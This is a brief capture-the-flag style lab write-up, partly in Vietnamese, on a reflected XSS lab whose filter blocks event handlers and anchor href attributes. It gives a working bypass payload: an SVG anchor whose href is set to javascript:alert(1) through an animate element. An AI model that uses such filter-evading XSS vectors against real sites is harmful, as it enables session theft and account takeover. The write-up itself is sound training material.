 # Target Goal: 

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked..

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function.

# Recon: 

Bài lab này đã bi chặn toàn bộ thẻ tag. Tuy nhiên ta vẫn có gợi ý dùng `href` để thực hiện XSS

Có một thứ khá hay, ta có thể tận dụng ở [animate tag](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/animate) được sử dụng như được gọi hàm (ở đây là attributeName) để chạy được hàm đó (href) 
```
<svg>

<a>

<animate attributeName="href"
          values=javascript:alert(1)></animate>
<text x="20" y="30"> Click here </text> //thẻ text bắt buộc phải có tọa độ

</a>

</svg>
```
# Flag: 

![Uploading image.png…]()

